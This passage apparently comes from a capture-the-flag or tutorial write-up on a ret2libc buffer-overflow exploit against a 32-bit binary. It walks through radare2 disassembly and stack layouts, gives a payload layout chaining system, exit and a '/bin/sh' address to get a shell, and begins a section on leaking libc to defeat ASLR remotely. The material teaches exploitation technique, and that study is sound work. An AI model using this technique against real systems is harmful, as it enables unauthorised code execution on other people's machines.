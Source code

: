 Okay, so if we analyze the compiled binary (`gcc -o test.out -m32 -no-pie test.c`) with radare2, we'll see that the parameter `"Hello World!"` is passed into the stack at line `0x08049184`:

```x86asm
│           0x0804917e      8d9008e0ffff   lea edx, [eax - 0x1ff8]
│           0x08049184      52             push edx
│           0x08049185      89c3           mov ebx, eax
│           0x08049187      e8a4feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0804918c      83c410         add esp, 0x10
```

After executing `0x08049184`, the stack looks like this:

```shell
|       ...       |
|-----------------|
| @"Hello World!" |
|-----------------|
|       ...       |
```

Now, the function call at `0x08049187` will push the return address into the stack, so after the `puts` function ends doing its magic, the execution flow of our program will continue as if nothing happened. This means that when `puts` start to execute, it will see the stack as this:

```
|       ...       |
|-----------------|
|    0x0804918c   | <--- return address of the caller
|-----------------|
| @"Hello World!" |
|-----------------|
|       ...       |
```

This return address is exactly our dummy address from our payload. So, in our payload, after the shell finished executing, the binary will probably crash as the program will change execution flow to `0x41414141` and very likely nothing valid is there. Therefore, we can change our dummy address with the address of the exit function (calculated the same way that `system` function above) to produce a clean exit of the program:

```
[0x2c padding] + [0xf7e129e0] + [0xf7e03a60] + [0xf7f52aaa]
```

## Remote exploit

Well, now we know how to exploit the binary locally, but we need to consider two aspects to exploit it in the server:

- We need to assume that ASLR will be activated.
- We don’t know which version of `libc` is installed.

To overcome the two limitations, we can use a `libc` function leakage.

### PLT and GOT
